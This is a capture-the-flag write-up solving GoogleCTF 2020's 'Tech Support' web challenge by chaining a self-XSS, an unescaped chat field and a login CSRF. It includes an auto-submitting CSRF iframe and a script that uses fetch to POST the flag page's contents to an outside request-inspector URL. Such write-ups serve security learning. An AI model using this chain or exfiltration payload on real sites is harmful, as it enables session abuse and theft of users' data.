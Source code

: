```yaml
---
layout: post
title: "GoogleCTF Tech Support solution"
date: 2020-08-24
---
```


The challenge' info card gives us a link to the website.


![infocard](/assets/posts/googleCTF-techsupport/images/p1.PNG)


#### Website's first page:


![firstpage](/assets/posts/googleCTF-techsupport/images/p2.PNG)


After creating and logging in to a new user, the page looks like this:


#### Main page:


![mainpage](/assets/posts/googleCTF-techsupport/images/p3.PNG)


The `/me` page appears immediately after logging in to our user. 

We have the address update functionality on this page, the address is stored within the DOM and we can inject script tags.

When I set the address to `<script>alert()</script>` the tag is stored within the page as follows:


![selfxss-1](/assets/posts/googleCTF-techsupport/images/p4.PNG)


This XSS by itself is not useful, a self XSS, but we should keep it on the mind.

Let's look on the flag page:

#### Flag page:


![flagpage](/assets/posts/googleCTF-techsupport/images/p5.PNG)


Only the `chat` user can access the flag, we should find how to causing the chat user to access some vulnerable page which will fetch the flag page and send its content to our domain.
In order to do so, I sould find a way to communicate the chat user.
The is a chat page in the website.

#### Chat page:


![chatpage](/assets/posts/googleCTF-techsupport/images/p6.PNG)


I can write the chatbot the reason for chatting him, pass the ReCaptcha test and submit it, after submitting the form a chat iframe will pop up, the reason I entered reflected within the chat iframe

#### Chat creation:


![chatcreate](/assets/posts/googleCTF-techsupport/images/p7.PNG)


#### Reason reflection:


![reasonreflection](/assets/posts/googleCTF-techsupport/images/p8.PNG)


The reason isn't encoded or escaped so I'm able to inject tag.
Let's proof this:


![reasonxss](/assets/posts/googleCTF-techsupport/images/p9.PNG)


We can assume that the `chat` user is open the same chat page, so the tag will be injected in its frame also, let's check it with a simple image request to our request inspector domain: 

#### The reason payload:


![reasonpayload](/assets/posts/googleCTF-techsupport/images/p10.PNG)


I received two requests to my request inspector - one from my browser and one from the chat user:

#### Chat user request:


![chatrequest](/assets/posts/googleCTF-techsupport/images/p11.PNG)


The iframe' origin isn't the same as the main website, so we can't just steal the flag by exploiting the XSS.

The chat URL is `//typeselfsub-support.web.ctfcompetition.com/static/chat.html`

The flag URL is `https://typeselfsub.web.ctfcompetition.com/flag`

The SOP will prevent us from reading data between these two origins. We should find a way to exploit the self XSS we found on the `/me` page to receive the flag.

Remember the self XSS? The login page is vulnerable to CSRF, it sends an empty CSRF token. We can create a page that exploits this and redirects to the `/me` page which contains the stored self XSS payload.

```
<iframe srcdoc='
            <form class="form" action="https://typeselfsub.web.ctfcompetition.com/login" method="POST">
              <input class="form-control" autofocus="" type="text" id="username" name="username" value="om3r-v">
              <input class="form-control" type="password" id="password" name="password" value="1234">
              <input type="hidden" name="csrf" value="">
          </form>
          <script>
              document.forms[0].submit()
            </script>
'>
</iframe>
```

#### The result:


![exploitingselfXSS](/assets/posts/googleCTF-techsupport/images/p12.PNG)


To receive the flag, we should create another iframe with the flag source.

Each iframe can access the DOM of the other iframe because their origins are the same.

#### Illustration:


![illustration](/assets/posts/googleCTF-techsupport/images/p13.png)


The self XSS payload within the `/me` page is:

``` 
<script> 
fetch("https://requestinspector.com/inspect/01ek2nd2b5agjbgk4j7yh6spyb" , {"method":"POST", "body": parent.x.window.flag.innerText})
</script>
```

This script tag will be executed within an iframe and it sends a POST request to my request inspector domain, the request' body is the content of the flag which is located in an iframe. 

My malicious website source is :


![maliciousweb](/assets/posts/googleCTF-techsupport/images/p14.PNG)


To exploit this XSS with my malicious website, I should send it to the chat user using the HTML injection we found at the chat creation.
We will pass the malicious website as an iframe:


![pass the website](/assets/posts/googleCTF-techsupport/images/p15.PNG)


#### Receiving the flag:


![receiveflag](/assets/posts/googleCTF-techsupport/images/p16.PNG)


